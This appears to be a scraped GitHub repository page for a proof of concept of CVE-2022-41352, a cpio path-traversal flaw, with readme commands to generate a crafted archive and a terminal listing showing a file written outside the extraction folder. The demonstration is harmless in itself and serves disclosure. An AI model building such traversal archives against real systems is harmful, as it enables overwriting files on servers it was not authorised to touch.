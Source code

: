 # cve-2022-41352

cve-2022-41352 poc

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/segfault-it](https://github.com/segfault-it) |
| Url      | [https://github.com/segfault-it/cve-2022-41352](https://github.com/segfault-it/cve-2022-41352)                                               |
| Stars    | 7                                                          |
| License  | GNU General Public License v2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2022-41352

# generate poc.tar
```
$ chmod +x cpio_pocgen.py
$ ./cpio_pocgen.py
```

# show the middle finger to cpio
```
$ cd /tmp
$ mkdir -p poc/a/b

copy poc.tar to /tmp/poc/a/b/

$ cd /tmp/poc/a/b/
$ cpio -i < poc.tar
$ ls -al ../
total 16
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:56 .
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:55 ..
drwxrwxr-x 2 xabino xabino 4096 ott 10 14:56 b
-rw-r--r-- 1 xabino xabino   35 ott 10 14:56 here.txt <-- resource outside of /tmp/poc/a/b/

$ cat ../here.txt
I should not be here - by segfault
```



## Get the content

```
git clone https://github.com/segfault-it/cve-2022-41352
cd cve-2022-41352
```

{% embed url="https://github.com/segfault-it/cve-2022-41352" %}

<figure><img src="https://avatars.githubusercontent.com/u/24494334?v=4" alt=""><figcaption><p>segfault-it</p></figcaption></figure>
